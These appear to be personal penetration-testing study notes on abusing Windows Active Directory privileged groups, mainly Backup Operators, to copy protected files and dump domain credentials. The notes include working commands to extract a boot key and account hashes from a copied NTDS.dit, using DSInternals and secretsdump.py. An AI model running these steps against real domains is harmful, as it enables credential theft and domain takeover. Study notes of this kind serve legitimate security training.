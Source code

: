 Privileged Accounts & Groups in AD:
https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-b--privileged-accounts-and-groups-in-active-directory

- Backup Operators group
- Event Log Readers group
- DnsAdmins group
- Hyper-V Administrators group
- Print Operators group
- Server Operators group

### Backup Operators Group

`whoami /groups` shows our groups membership.
Members of this group inherit `SeBackup` and `SeRestore` privileges.

`SeBackupPrivilege` allows us to traverse any folder and list the folder contents.
This let's us copy a file from the folder, even if there's no ACE for us in the folder's ACL.

We need to programmatically copy the data, making sure to specify `FILE_FLAG_BACKUP_SEMANTICS`.

#### Importing Libraries

![[Pasted image 20230107135205.png]]

#### Verifying SeBackupPrivilege is Enabled

![[Pasted image 20230107135235.png]]

![[Pasted image 20230107135250.png]]

#### Enabling SeBackupPrivilege

![[Pasted image 20230107135326.png]]

#### Copying Protected Files

![[Pasted image 20230107135506.png]]

![[Pasted image 20230107135538.png]]

### Attacking a Domain Controller - Copying NTDS.dit

With the backup permission, we can log into a DC locally. We can create a shadow copy:

![[Pasted image 20230107135630.png]]

#### Copying NTDS.dit Locally

![[Pasted image 20230107135659.png]]

### Backup up SAM and SYSTEM

![[Pasted image 20230107135729.png]]

### Extracting Credentials from NTDS.dit
```
Import-module .\DSInternals.psd1
$key = Get-BootKey -SystemHivePath .\SYSTEM
Get-ADDBAccount -DistinguishedName 'CN=amdinistrator,CN=users,DC=domin,DC=local' \
	-DBPath .\ntds.dit -BootKey $key
```

### Extracting Hashes with secretsdump.py
```bash
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

### Robocopying

![[Pasted image 20230107135913.png]]